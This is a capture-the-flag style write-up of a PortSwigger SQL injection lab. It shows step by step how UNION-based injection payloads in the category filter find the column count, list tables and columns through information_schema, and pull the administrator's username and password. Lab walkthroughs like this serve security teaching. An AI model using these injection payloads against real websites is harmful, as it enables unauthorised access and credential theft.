 # Write-up: SQL injection attack, listing the database contents on non-Oracle database
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

In this lab, firstly we need to find the number of columns returned by the query. We are also unaware of the database type. Then we need to list the database tables and then a table that contains the user credentials.

To find the number of columns returned by the query, we can use the `ORDER BY` method. We will start with `ORDER BY 1` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we get error at `ORDER BY 3`, which means the number of columns is 2.

The link is like `/filter?category=Gifts'+ORDER+BY+3--`

```sql
' ORDER BY 3--
```

### Solution

Now, to list the database tables, we can use the `INFORMATION_SCHEMA` database. The table `TABLES` contains the table names. We can use the following link to list the tables.
`/Gifts'+UNION+SELECT+table_name,null+FROM+information_schema.tables--`

The query will be like
```sql
SELECT table_name, null FROM information_schema.tables
```

Above query gives a whole lot of tables. We can filter out the tables that contain the user credentials. 
After going through table pg_user, found a unique table `users_zusbow`.

Enumerating this table to find the column names, we can use the following link.
`/Gifts'+UNION+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name='users_zusbow'--`

The query will be like
```sql
SELECT column_name, null FROM information_schema.columns WHERE table_name='users_zusbow'
```

This gives the column names email, username_rwbloj, password_sjurdi. Since we only need the username and password, we can use the following link.
`/Gifts'+UNION+SELECT+username_rwbloj,password_sjurdi+FROM+users_zusbow--`

The query will be like
```sql
SELECT username_rwbloj, password_sjurdi FROM users_zusbow
```

This gives the username and password for `administrator` of the user and hence solves the lab.

![alt text](img/2.png)